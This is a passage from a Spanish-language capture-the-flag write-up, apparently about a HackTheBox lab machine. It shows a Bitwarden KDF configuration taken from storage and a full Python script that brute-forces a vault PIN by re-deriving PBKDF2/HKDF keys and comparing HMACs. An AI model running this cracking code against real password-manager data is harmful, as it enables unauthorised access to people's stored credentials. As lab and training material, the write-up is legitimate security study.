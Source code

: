 y entre todo esto, también podemos ver un valor curioso:

```json
"user_08b3751b-aad5-4616-b1f7-015d3be749db_kdfConfig_kdfConfig": {"__json__": true,"value": "{\"iterations\":600000,\"kdfType\":0,\"memory\":null,\"parallelism\":null}"}
```

Parece que son 600000 iteraciones y no 600001, hmmm, un poco extraño pero supongamos que esta es la verdadera cantidad y hagamos un script en Python con lo que hemos entendido del algoritmo de encriptación de esta app para los vaults:

```python
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import ciphers, kdf, hashes, hmac, padding
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC
from cryptography.hazmat.primitives.kdf.hkdf import HKDFExpand, HKDF
from cryptography.hazmat.primitives.asymmetric import rsa, padding
from cryptography.hazmat.primitives.ciphers import Cipher,algorithms, modes
from pwn import *

import base64

pins = open("./pins.txt", "r").readlines()
privKeyBin = open("./encryptedPin.txt", "rb").read()
logg = log.progress("Decryption")
keyParts = privKeyBin.strip(b"\n").split(b".")[1].split(b"|")

iv = base64.b64decode(keyParts[0])
cipher = base64.b64decode(keyParts[1])
mac = base64.b64decode(keyParts[2])

for pin in pins:
  logg.status(f"Trying PIN: {pin}")
  kdf1 = PBKDF2HMAC(algorithm=hashes.SHA256(), length=32, salt=b"elwin.jones@corporate.htb", iterations=600000
                  ,backend=default_backend())
  hkdf_enc = HKDFExpand(algorithm=hashes.SHA256(), length=32, info=b"enc", backend=default_backend())
  hkdf_hash = HKDFExpand(algorithm=hashes.SHA256(), length=32, info=b"mac", backend=default_backend())

  pin_bytes = bytes(pin.strip("\n"), "utf-8")
  masterKey = kdf1.derive(pin_bytes)
  encKey = hkdf_enc.derive(masterKey)
  keyMac = hkdf_hash.derive(masterKey)

  h = hmac.HMAC(keyMac, hashes.SHA256(), backend=default_backend())
  h.update(iv)
  h.update(cipher)
  computed = h.finalize()

  if computed == mac:
    logg.success(f"PIN found! {pin}")
    exit(0)

logg.failure("PIN not found!")

```
{: file="bitwarden_brute.py" }
